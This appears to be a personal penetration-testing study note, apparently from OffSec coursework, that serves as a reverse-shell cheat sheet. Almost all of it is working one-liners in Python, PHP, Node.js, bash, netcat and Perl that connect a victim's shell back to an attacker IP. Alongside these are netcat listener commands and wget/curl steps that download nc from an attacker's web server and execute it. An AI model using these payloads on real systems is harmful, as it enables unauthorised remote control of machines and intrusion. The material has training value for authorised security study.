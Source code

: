 ```yaml
---
tags:
- reverseShell
---
```


# Reverse shell 
It is when attacker, using some volnurability, redirects shell input output from victim's machine to attacker's machine.
## How we can do reverce shell
1. Create tcp server on attacker's machine using nc:
```bash
nc -lvp 80
```
2. Create connection to attacker machine:
### Python:
Payload1:
```php

$command = <<<COMMAND
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.136",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
COMMAND;

echo $command;

passthru($command);

```
Payload2
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.51",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Payload3:
```bash
```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

### PHP:
```php
$command = <<<COMMAND
php -r '\$sock=fsockopen("192.168.49.136",80);exec("/bin/sh -i <&3 >&3 2>&3");'
COMMAND;

echo $command;

passthru($command);
```
Other examples of php:
```bash
php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'\");
```
https://github.com/pentestmonkey/php-reverse-shell 
### Nodejs
Payload
```bash
echo "require('child_process').exec('nc -nv 192.168.49.51 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```
### Examples in bash:
Attacker machine:
```bash
nc -nlvp 9090
```
Payload:
```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.194/9090 0>&1'
```
### Netcat
Attacker machine:
```bash
nc -nlvp 9090
```
Payload
```bash
/bin/nc -nv 192.168.45.211 9090 -e /bin/bash
```
## If victim's machine doesn't has Netcat

Attacker's machine:
```bash
sudo cp /bin/nc /var/www/html/
sudo service apache2 restart
```
Payload:
```bash
wget http://192.168.49.51:80/nc -O /var/tmp/nc ; chmod 755 /var/tmp/nc ; /var/tmp/nc -nv 192.168.49.51 9090 -e /bin/bash
```
or
```sh
curl --output /var/tmp/nc http://192.168.49.55:80/nc; chmod 755 /var/tmp/nc; /var/tmp/nc -nv 192.168.49.55 9090 -e /bin/bash
```

### PERL
```bash
perl -e 'use Socket;$i="192.168.49.51";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

More payloads here [[2023042100033232 Reverse Shell#^3c549e]]
## References
1. web200.Tools.Shell
2. https://github.com/swisskyrepo/PayloadsAllTheThings ^cd307c
3. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md ^3c549e
